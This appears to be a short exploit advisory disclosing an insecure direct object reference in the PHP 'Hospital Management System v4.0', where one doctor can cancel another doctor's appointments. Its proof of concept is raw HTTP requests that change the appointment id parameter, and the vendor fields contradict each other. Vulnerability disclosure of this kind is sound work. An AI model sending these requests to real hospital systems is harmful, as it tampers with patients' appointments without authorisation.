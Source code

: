 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to cancel the appointment that is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/doctor/appointment-history.php?id=3(CHANGE HERE)&cancel=update HTTP/1.1
...
```




POST /hospital/hms/book-appointment.php HTTP/1.1
...

Doctorspecialization=Orthopedics&doctor=4&fees=0&appdate=2023-12-30&apptime=9%3A00+PM&submit=

GET /hospital/hms/appointment-history.php?id=6&cancel=update HTTP/1.1
...



